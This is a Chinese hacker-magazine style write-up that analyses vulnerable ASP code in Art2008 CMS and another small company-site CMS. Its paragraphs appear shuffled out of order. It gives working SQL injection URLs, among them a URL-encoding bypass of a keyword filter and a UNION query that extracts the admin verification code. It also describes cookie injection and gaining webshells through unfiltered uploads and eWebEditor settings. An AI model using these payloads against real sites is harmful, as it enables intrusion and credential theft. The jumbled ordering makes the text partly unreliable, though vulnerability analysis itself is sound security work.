上述代码是过滤传值过来的字符型数据，这个过滤对 SQL 注入问题不大，代码中单引号过滤为空了，到这里看来，还是可以注入的，接下来的代码让我傻眼了，如下：

```asp
<%
if (not isNumeric(newsid)) then
    Response.Write "<Script Language=JavaScript>alert('ＩＤ参数错误或有非法字符没设指定参数');history.back()</Script>"
    response.end
end if
%>
```

简单的一个 VBS 内置函数 isnumeric 函数即可防止注入攻击，后来在本文件中又发现了一处有问题的代码：

```asp
<%
Dim xgnews
Set xgrs = Server.CreateObject("ADODB.RecordSet")
xgrs.Open "select top 10 * from [news] where ( title like '%"&webxgnews&"%' or xgnews like '%"&webxgnews&"%' ) and id<>"&chkhtm(trim(Request("newsid")))&" order by id desc",conn,1,1
if xgrs.recordcount=0 then
    xgnews="没有相关信息"
%>
```

代码中 chkhtm(trim(request("newsid"))) 的过滤措施在上面已经分析了，可以绕过继续注入的，只是在这里条件不好注入。再接下来分析几个常用文件，大多数变量都经过了安全过滤，直到发现 “js_news_hit.asp” 文件，代码如下：

```asp
<%
<!--#include file="admin_conn.asp" -->
action=trim(request("action"))
news_id=trim(request("news_id"))
' 取出新闻
if action=1 then
    Set news_hit_rs = Server.CreateObject("ADODB.RecordSet")
    news_hit_rs.Open "select * from [news] where id="&news_id, conn,1,1
    if news_hit_rs.recordcount>0 then
%>
```



代码中的 news_id 经过 Trim 函数过滤后带入 SQL 查询，当然这里的条件是当 action=1 的时候才会触发漏洞，注入结果如图 2。没有想到本系统还有这样简单的漏洞，接下来继续深入其它文件，看看是否存在潜在的漏洞。我们来看 “js_news_read.asp” 文件的代码：

```asp
<%
news_id=chkhtm(trim(Request("news_id")))
news_Pay=request("news_Pay")
lm_id=chkhtm(trim(Request("lm_id")))
Set read_Rs=artexe("Select * From news where id=" &news_id)
Set lm_Rs=artexe("Select * From lm where ID=" & lm_id)
%>
```

漏洞又来了，数字型参数就仅仅用 chkhtm 过滤了。对我们注入没什么影响，这样的安全等级实在不敢恭维，直接构造出 “http://localhost/art2008/js_news_read.asp?news_id=1&lm_id=69” 语句即可注射。

继续分析代码，发现文件 “js_news_lmpath.asp” 中的代码很简单，不过还是有安全问题，代码如下：

```asp
<!-- #include file="admin_conn.asp" -->
<!-- #include file="admin/titleb.asp" -->
<%
news_id=trim(request("news_id"))
uuo=lmpath(news_id)
conn.close
set conn=nothing
document.write ("<%=uuo%>")
%>
```

本文件就这几段简洁的代码，看下与变量 news_id 有关的 lmpath 这个自定义函数，代码如下：

```asp
<%
function lmpath(news_id)
    newsid=trim(request("newsid"))
    root_path=finddir(request.servervariables("URL"))
    if isnull(news_id) or isempty(news_id) or news_id="" then
        newsid=trim(request("newsid"))
    else
        newsid=news_id
    end if
    set fun_lmpath_rs = Server.CreateObject("ADODB.RecordSet")
    fun_lmpath_rs.Open "select * from [news] where id="&newsid&" order by id desc", conn,1,1
%>
```

代码中的 news_id 这个参数在 if 语句中分别做了判断，可惜这些判断对 SQL 注入毫无影响，将获取的参数带入 SQL 查询即可造成漏洞。再继续看 user_view.asp 文件，同样存在注入漏洞，这里我就不贴代码了。接下来分析 js-tj-02.asp 文件，部分代码如下：

```asp
<%
lm=trim(request("lm"))
dim sql
sql = "select id,hit from [news] where lm='"&lm&"'"
sql2= "select id,pic from [news] where pic<>'' and lm='"&lm&"'"
%>
```

## 新洞绵绵看



貌似是防注入代码了，之前在注入数字型变量时并没有产生异常啊？打开 `admin_conn.asp` 文件，发现如下—段防注入代码：

```asp
<%
heike_sss=LCase(request.servervariables("QUERY_STRING"))
heike_ty=" ' and| 'and|'' and | and ' |or'| or'| or | ' or|(| select| delete|drop| exec"
heike_array=split(heike_ty,"|")
for heike_ty_nnnn=0 to ubound(heike_array)
    if instr(heike_sss,heike_array(heike_ty_nnnn))<>0 then
        heike_ip=Request.ServerVariables("REMOTE_ADDR")
        say_word_heike=heike_ip&"，你想干什么？黑我，不要想啦！请删除 SQL 注入符号。"
        response.write "<script>alert('"&say_word_heike&"');history.go(-1);</script>"
        response.end
    end if
next
%>
```



“项”设置，一看就很眼熟，是 eWebEditor 上传选项配置信息，在后台加上 **ASA** 就可上传 ASA 木马，如图 6。

最近 eWebEditor 爆出不少安全漏洞，最著名的就是 2.16 版本 `upload.asp` 中存在上传漏洞，在客户端可以上传 CER 木马。而 Art2008CMS 貌似使用的 eWebEditor 版本是 6.0，不过这个版本据说也存在漏洞，网上已经给出了利用办法，大致是将远程图片保存到本地。个人感觉，这个漏洞如果能成功利用的话，和沸腾展望程序保存图片漏洞很类似，如图 7。

这段防注入代码本身就有问题，很早以前 `lake2` 就对 `request.servervariables("QUERY_STRING")` 获取参数做过分析，可以用 URL 编码技术来绕过此防注入代码。在这里我将 “l” 和 “a” 做了 URL 编码转换，利用 `js-tj-02.asp?%6Cm=73%20'%61nd%20'1'='2`（不包括双引号）就可以成功注入，提交后如图 4。





程序没有弹出对话框了，同时页面也和 `and 1=1` 时候发生了变化，说明注入成功。经过以上各种注入手段，我想拿到账户和密码是没什么大问题了，可是后台登录的时候却有个后台认证码，如图 5。

点“确定”后保存为远程图片，然后点击“远程文件自动上传”，如图 8。保存后查看代码，如图 9。







开始以为认证码和动易 CMS 一样单独放在一个文件中，查看代码才发现，这个认证码是放在数据库中了。程序员以为把数据库里面加上防下载表，然后改成 asp 后缀，这样就安全了。但是现在出了注入漏洞后一切都变了，因为我们通过构造 SQL 注入语句可以轻松得到认证码。

看到这里貌似真的保存到了指定的目录中，可是查看的时候却不存在 asp 文件，我本地测试并不像网络上说的那样能够利用。好了，注入漏洞以及拿 webshell 就说这么多了，接下来是客户端后台的上传漏洞，主要是“上传头像”这里。

在浏览器中提交如下语句：

```text
http://localhost/art2008/user_view.asp?id=1%20and%201=2%20union%20select%201,validatecode,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29%20from%20setting
```

这样即可得到认证码 “art2008”，我们自然就能轻松进入后台了。接下来是拿 webshell，后台“常规设置”中有个“上传选项”。

首先在主页注册个用户进后台，打开 `http://localhost/art2008/User/uploadface.asp` 抓包，此时后台得到 cookies，然后打开用户小二上传功能即可上传成功，如图 10。



## 宜昌电脑网络公司 v2.8 版漏洞分析

- 从本文你可以学到。
- 宜昌电脑网络公司漏洞分析
- 漏洞的利用和测试

平时最爱看“黑手”，但是还从来没投过稿，我最喜欢的就是“新闻练练看”和“西线无战事”了，看着很多高手分析漏洞、入侵网站，自己也想来实践一番。这回闲着发慌，去中国源码下载站下了套源码《宜昌电脑网络公司 v2.8 版》，学习着分析了下，不分析不知道，一分析吓一跳，废话不多说，正文开始！

## 一、cookie 注入漏洞

网站根目录下的 **news_more.asp** 文件开始是这样写的：

```asp
<!--#include file="open.asp" -->
<%
id=Request("id")
if id="" then
    Response.end
end if
%>
```

```asp
<%
SQL="Select * from product Where id='"&id
Set rs=Server.CreateObject("ADODB.RecordSet")
rs.open SQL,con,1,1
%>
```

很明显，这里直接用 request 对象获取 id 变量代入数据库查询，没有进行过滤。再看它包含的文件 open.asp，相关代码如下：

```asp
<%
Dim Query_Badword,Form_Badword,i,Err_Message,Err_Web,name
Err_Message = ""
Err_Web = ""
Query_Badword=" ' and i.select i.update i.chr i.delete i.%20from i.insert i.mid i.master.i.set i.(chr(37))"
Form_Badword=" '" % ^ & # @ / + ( ) ; ="
On Error Resume Next
if request.QueryString<>"" then
    Chk_badword=split(Query_Badword," i.")
    FOR EACH Query_Name IN Request.QueryString
    for i=0 to ubound(Chk_badword)
        If instr(lCase(request.QueryString(Query_Name)),Chk_badword(i))<>0 Then
            Select Case Err_Message
            Case "1"
                Response.Write "<Script Language=JavaScript>alert('系统提示：您进行了非法操作！\n\n请不要在参数中包含非法字符尝试注入！');window.close();</Script>"
            Case "2"
                Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
            Case "3"
                Response.Write "<Script Language=JavaScript>alert('系统提示！\n\n请不要在参数中包含非法字符尝试注入！');location.href='"&Err_Web&"'</Script>"
            End Select
            Response.End
        End If
    NEXT
    NEXT
end if
```

```asp
' 对 post 表单值的过滤
if request.form<>"" then
    Chk_badword=split(Form_Badword," ")
    FOR EACH name IN Request.Form
    for i=0 to ubound(Chk_badword)
        If instr(lCase(request.form(name)),Chk_badword(i))<>0 Then
            Select Case Err_Message
            Case "1"
                Response.Write "<Script Language=JavaScript>alert('系统提示！\n\n请不要在参数中包含非法字符尝试注入！');window.close()</Script>"
            Case "2"
                Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
            Case "3"
                Response.Write "<Script Language=JavaScript>alert('系统提示！\n\n请不要在参数中包含非法字符尝试注入！');location.href='"&Err_Web&"'</Script>"
            End Select
            Response.End
        End If
    NEXT
    NEXT
end if
%>
```

像这种防注入文件，网上见得多了，这里只对用 GET 方法和 POST 方法获取的数据进行过滤，而恰恰忽略了 cookie，所以 cookie 注入就产生了，直接中转一下就可以用工具注入了，如图 1。

当然，手工注入也很快，union 查询也是很方便的，数据库里的管理员密码还没有加密，唉！真不知道程序员是怎么搞的。

至此本程序漏洞分析完毕，表面看上去无懈可击，实际上程序在注入攻击方面做得远远不够，并不像官方所说的那么安全。上传漏洞以及多个注入漏洞即可将安全防线击溃，更可笑的还是那段所谓的防注入代码，更是不堪一击。好了，有什么问题到“黑手”论坛上和我交流吧！

> 编辑点评：Art2008 CMS 是一款比较主流的 CMS 系统，官方态度挺不错，也比较积极。以小编经验，开发 Art2008 CMS 的技术人员还是有些安全意识的，在一些方面做得还不错，但还是有些遗留或者疏忽。

### 二、传说中的暴库，其实仅仅是鸡肋！

在 inc 目录下的数据库连接文件 **coon.asp** 是这样写的：

```asp
<%
dim conn
dim connstr
dim db
db="database/vote1111.asp"  '数据库文件的位置
Set conn = Server.CreateObject("ADODB.Connection")
connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(db)
conn.Open connstr
sub CloseConn()
    conn.close
    set conn=nothing
end sub
%>
```



很明显没有容错语句：on error resume next，直接访问就可以暴出数据库路径，如图2。而且数据库也是没有做防下载处理，如图3，用迅雷就可以直接下载。为什么说是“骗助”呢？在 admin 目录下的 open.asp 文件中是这样写的：

```asp
<%
Set con=Server.CreateObject("ADODB.Connection")
connstr="provider=microsoft.jet.oledb.4.0;Data source="&Server.MapPath("data/#admindata.asp")
con.open connstr
%>
```



可以看得出，这里链接的不是 database 目录下的 vote1111.asp，所以这个数据库里的管理员密码根本就不是真正的管理员密码，管理员后台验证的管理密码链接的是 admin 目录下的 data 目录下的 #admindata.asp 数据库。

要得到这个真管理员密码，用上面的 cookie 注入就可以了，它注入的就是包含真管理员密码的数据库 #admindata.asp。

### 三、后台任意文件上传漏洞直接获取 WebShell

后台上传文件是这样写的：

```asp
<% on Error resume next
response.buffer=true
set upload=new upload_5xSoft
title=upload.form("title")
content=upload.form("content")
pro_name=upload.form("pro_name")
temp=upload.form("temp")
set image=upload.file("img")
imgname1=image.filename
if image.filename<>"" then
    imgname=getfilename(image.filename)
    image.SaveAs Server.MapPath("img/")&imgname
end if
if imgname1<>"" then
    SQL="insert into product(pro_name,title,content,img,pub_date)Values('"&pro_name&"','"&title&"','"&content&"','"&imgname&"','"&date&"')"
else
    SQL="insert into product(pro_name,title,content,pub_date)Values('"&pro_name&"','"&title&"','"&content&"','"&date&"')"
end if
con.Execute SQL
function getfilename(imgname)
getfilename=replace(replace(replace(cstr(now)," ",""),"-",""),":","")&rnd()&right(imgname,4)
end function
if err.number<>0 then
    Response.Write(err.Description)
else
    Response.Write("<center>信息已经添加成功! <a href='javascript:close()'>关闭窗口</a></center>")
end if
```



可以看到这里直接判断了文件不为空，就用当前时间加随机数命名保存到 img 目录下。其中没有对上传的文件进行任何过滤，导致了任意文件上传，自然可以很轻松地获得 WebShell，如图4、图5。

